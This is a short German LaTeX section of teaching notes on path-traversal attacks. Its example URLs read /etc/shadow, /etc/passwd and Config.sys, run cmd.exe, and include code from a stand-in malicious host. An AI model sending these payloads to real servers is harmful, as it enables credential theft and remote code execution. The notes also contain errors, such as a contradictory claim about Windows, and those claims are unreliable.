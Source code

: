 (wikipedia)
\subsection{Path-Traversal}
\label{sec:Path-Traversal}
Als Path-Traversal wird eine Security Lüge bezeichnet die es einem Angreifer, durch Manipulation des URLs auf Daten zuzugreifen, auf die er nicht zugriffen können sollte. 
\subsubsection{Grundprinzip}
Man sollte nicht auf Dateien, die sich außerhalb vom Web-Directory befinden, von einem Webserver zugreifen können. Beim Path-Traversal versucht man als Angreifer durch beifügen von Pfadangaben das Verzeichnis zum Root-Verzeichnis zu wechseln. 
//
Man benutzt ../ als Parameter zum Wechseln des Verzeichnisses.
\subsubsection{Beispiele}
\begin{enumerate}
\item Windows
\begin{enumerate}
\item \url{http://www.example.com/index.foo?item=../../../Config.sys}
\item \url{http://www.example.com/index.foo?item=../../../Windows/System32/cmd.exe?/C+dir+C:}
\end{enumerate}
\item Linux
\begin{enumerate}
\item \url{http://some_site.com.br/../../../../etc/shadow }
\item \url{http://some_site.com.br/get-files?file=/etc/passwd}
\end{enumerate}
\end{enumerate}
Anhand dieser Beispiele kann man sehen, das einem diese Schwäche ermöglicht lokale Passwörter auszulesen und Windows Configs.  
\\ \\
Unter Linux ist diese Schwäche kritischer da man hier auf die komplette Festplatte Zugriff bekommt. In Windows kann man sich nur im lokalen Directory bewegen, wo sich die Website befindet.
\\ \\
Eine weitere Anwendungsmöglichkeit ist es auf seine eigene bösartige Seite zu verweisen und über diese code einzufügen mit dem man sich noch mehr Möglichkeiten verschafft. \\ \\
\url{http://some_site.com.br/some-page?page=http://BoeseSeite.com.br/other-page.htm/malicius-code.php}
